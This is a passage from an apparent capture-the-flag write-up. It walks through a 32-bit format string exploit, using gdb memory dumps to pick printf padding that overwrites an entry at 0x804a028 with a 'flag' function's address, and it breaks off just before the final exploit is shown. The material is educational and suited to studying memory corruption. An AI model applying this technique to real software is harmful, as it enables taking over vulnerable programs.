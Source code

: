 When we run the script and check the memory layout in gdb, we see this (we do need to give the input to the `sample.py`, for buffering):

```
─────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80487d0 <main+172>       lea    eax, [ebp-0x138]
    0x80487d6 <main+178>       push   eax
    0x80487d7 <main+179>       call   0x80485d0 <printf@plt>
 →  0x80487dc <main+184>       add    esp, 0x10
    0x80487df <main+187>       mov    eax, ds:0x804a044
    0x80487e4 <main+192>       sub    esp, 0xc
    0x80487e7 <main+195>       push   eax
    0x80487e8 <main+196>       call   0x80485c0 <fflush@plt>
    0x80487ed <main+201>       add    esp, 0x10
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "32_new", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80487dc → main()
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x080487dc in main ()
gef➤  x/2w 0x804a028
0x804a028:    0x52005252    0xf7000000
```

So we can see that the value the printf write by default is `0x52`. We need the first byte to be `0x0b` to match the `flag` function's address `0x0804870b`. We will just add `185` bytes to change the value to `0x10b` so the byte there will be `0x0b`. The `0x01` will overflow into the second byte, however that will be overwritten with the second write so we don't need to worry about it yet. When we append `%185x` to the first write and check the memory layout afterwards, we see this:

```
Breakpoint 1, 0x080487dc in main ()
gef➤  x/2x 0x0804a028
0x804a028:    0x0b010b0b    0xf7000001
```

So we can see that the first byte is `0x0b` which is what it should be. Now for the second write, we need the second and third byte to be equal to `0x0487`, and it is `0x010b`. So we need to add `0x0487 - 0x010b = 892` bytes to get it there. When we add `%892x` to the second write, we see that this is the new address that is written:

```
Breakpoint 1, 0x080487dc in main ()
gef➤  x/2x 0x0804a028
0x804a028:    0x8704870b    0xf7000004
```

So we can see that all of the bytes with the exception of the fourth byte are correct. Now we just need to add `(0x100 - 0x87) + 0x8 = 129` bytes to get the fourth byte equal to `0x08`. Of course this will spill over to the next dword (if you check the last couple of memory layouts, you can see it's value change as we overwrite part of it). However that value isn't used in anyway that would crash or prevent us from pulling this off, so we don't need to worry about it. When we add the final "bytes printed padding" (if you can call it that) we end up with this exploit:
